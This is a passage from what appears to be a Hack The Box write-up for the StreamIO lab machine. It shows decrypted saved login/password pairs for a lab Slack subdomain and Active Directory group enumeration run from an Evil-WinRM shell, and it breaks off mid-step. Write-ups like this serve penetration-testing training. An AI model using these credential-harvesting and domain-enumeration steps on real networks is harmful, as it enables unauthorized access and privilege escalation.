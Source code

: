 ```sh
clearText b'b3610ee6e057c4341fc76bc84cc8f7cd51abfe641a3eec9d0808080808080808'
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```

We have a new subdomain for slack with passwords decrypted for four users. Back to the box for more enumeration to find how we get to administrator.

## AD Enumeration

Looking at users group membership:

```pswershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> dsget user "CN=JDgodd,CN=Users,DC=streamIO,DC=htb" -memberof -expand
"CN=Domain Users,CN=Users,DC=streamIO,DC=htb"
"CN=Users,CN=Builtin,DC=streamIO,DC=htb"

*Evil-WinRM* PS C:\Users\nikk37\Documents> dsget user "CN=nikk37,CN=Users,DC=streamIO,DC=htb" -memberof -expand
"CN=Remote Management Users,CN=Builtin,DC=streamIO,DC=htb"
"CN=Domain Users,CN=Users,DC=streamIO,DC=htb"
"CN=Users,CN=Builtin,DC=streamIO,DC=htb"

*Evil-WinRM* PS C:\Users\nikk37\Documents> dsget user "CN=Martin Smith,CN=Users,DC=streamIO,DC=htb" -memberof -expand
"CN=Remote Management Users,CN=Builtin,DC=streamIO,DC=htb"
"CN=Administrators,CN=Builtin,DC=streamIO,DC=htb"
"CN=Domain Users,CN=Users,DC=streamIO,DC=htb"
"CN=Users,CN=Builtin,DC=streamIO,DC=htb"
```

If we look at domain groups we see an interesting one:

```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> net groups
Group Accounts for \\
-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*CORE STAFF
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
<SNIP>
```

The group CORE STAFF stands out, look at it's details we see nothing helpful:
